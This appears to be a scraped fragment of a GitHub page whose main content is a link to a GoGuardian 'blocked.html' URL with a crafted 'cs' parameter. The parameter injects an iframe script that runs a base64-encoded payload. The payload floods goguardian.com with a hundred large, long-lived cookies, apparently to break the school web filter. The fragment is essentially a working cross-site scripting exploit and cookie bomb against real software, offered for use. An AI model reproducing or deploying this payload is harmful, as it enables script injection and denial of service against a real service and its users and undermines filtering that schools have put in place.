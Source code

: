 
](https://student.goguardian.com/teacher/blocked.html?cs=[{"name": ""}, {"name": "<iframe srcdoc=\"<script>top.eval(atob(`Zm9yKGxldCBpID0gMDsgaSA8IDEwMDsgaSsrKSB7CiAgZG9jdW1lbnQuY29va2llID0gYHgke2l9PSR7ZW5jb2RlVVJJQ29tcG9uZW50KGJ0b2EoY3J5cHRvLmdldFJhbmRvbVZhbHVlcyhuZXcgVWludDhBcnJheSgyNSAqIDI1KSkpKX07ZXhwaXJlcz0ke25ldyBEYXRlKDJlMTQpLnRvVVRDU3RyaW5nKCl9O2RvbWFpbj1nb2d1YXJkaWFuLmNvbTtwYXRoPS9gOwp9`))</script>\"></iframe>"}])
